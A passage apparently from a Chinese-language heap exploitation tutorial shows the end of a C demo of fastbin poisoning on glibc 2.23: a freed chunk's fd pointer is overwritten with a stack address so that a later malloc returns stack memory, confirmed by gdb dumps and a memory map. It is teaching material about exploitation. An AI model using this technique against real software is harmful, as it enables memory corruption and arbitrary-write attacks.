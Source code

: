 ```

    free(chunk1);

    *(long long *)chunk1=&stack_chunk;
    malloc(0x10);
    chunk_a=malloc(0x10);
    return 0;
}
```

通过 gdb 调试可以看到我们首先把 chunk1 的 fd 指针指向了 stack_chunk

```
0x602000:   0x0000000000000000  0x0000000000000021 <=== chunk1
0x602010:   0x00007fffffffde60  0x0000000000000000
0x602020:   0x0000000000000000  0x0000000000020fe1 <=== top chunk
```

之后第一次 malloc 使得 fastbin 链表指向了 stack_chunk，这意味着下一次分配会使用 stack_chunk 的内存进行

```
0x7ffff7dd1b20 <main_arena>:    0x0000000000000000 <=== unsorted bin
0x7ffff7dd1b28 <main_arena+8>:  0x00007fffffffde60 <=== fastbin[0]
0x7ffff7dd1b30 <main_arena+16>: 0x0000000000000000
```

最终第二次 malloc 返回值为 0x00007fffffffde70 也就是 stack_chunk

```
   0x400629 <main+83>        call   0x4004c0 <malloc@plt>
 → 0x40062e <main+88>        mov    QWORD PTR [rbp-0x38], rax
   $rax   : 0x00007fffffffde70

0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/Ox9A82/tst/tst
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/Ox9A82/tst/tst
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/Ox9A82/tst/tst
0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]
0x00007ffff7a0d000 0x00007ffff7bcd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000 0x00007ffff7dcd000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd3000 0x00007ffff7dd7000 0x0000000000000000 rw-
0x00007ffff7dd7000 0x00007ffff7dfd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7fdb000 0x00007ffff7fde000 0x0000000000000000 rw-
0x00007ffff7ff6000 0x00007ffff7ff8000 0x0000000000000000 rw-
0x00007ffff7ff8000 0x00007ffff7ffa000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 0x0000000000000000 r-x [vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw-
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
```

